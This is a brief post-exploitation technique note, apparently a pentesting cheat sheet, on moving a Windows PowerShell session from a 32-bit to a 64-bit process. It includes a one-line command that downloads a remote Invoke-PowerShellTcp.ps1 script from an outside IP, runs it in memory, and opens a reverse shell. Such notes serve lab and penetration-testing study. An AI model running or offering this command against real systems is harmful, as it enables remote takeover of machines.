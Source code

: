 # Windows Migrating Process

## PowerShell Migrating Process

This is a technique to migrate from a 32-bit process to a 64-bit one. It should be said that this procedure is important for the correct enumeration of the system because if it is included in a process that does not run under the architecture of the machine, then post-exploitation tools, will give a bunch of false positives. Knowing with what architecture we are dealing with both the operating system and the process level, we can do it via Powershell, obtaining **True **or **False **depending on whether it is true or not through the following queries.

Operating System Architecture

```
[Environment]::Is64BitOperatingSystem
```

Process Architecture

```
[Environment]::Is64BitProcess
```

If we see that it is a 64-bit operating system, and the statement `[Environment]::Is64BitProcess` returns a **False**, the only thing we will have to do is, for example, winning a session by Powershell and invoke it from the following path:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.10.15:443/Invoke-PowerShellTcp.ps1')
```

In the new reverse shell. If we check again which process we are in, we can see that this time the query`[Environment]::Is64BitProcess` will return a **True**, and we can now continue with the enumeration at the system level.
